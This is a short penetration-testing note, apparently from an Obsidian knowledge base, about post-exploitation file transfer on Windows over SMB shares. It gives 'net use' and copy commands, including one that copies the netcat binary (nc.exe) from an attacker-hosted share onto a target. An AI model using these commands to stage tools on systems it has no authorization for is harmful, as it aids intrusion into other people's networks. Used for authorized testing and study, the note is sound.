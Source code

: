 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
  - Windows
---
```

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB Guide]]

A SMB share can be used across an entire domain
1. [[Impacket#Create SMB Server|Create SMB Server]] SMB server share
2. `Net Use`

```
net use z: \\192.168.19.33\ROPNOP

copy z: .
```

```cmd-session
copy \\192.168.220.133\share\nc.exe
```

```cmd-session
net use n: \\192.168.220.133\share /user:test test
```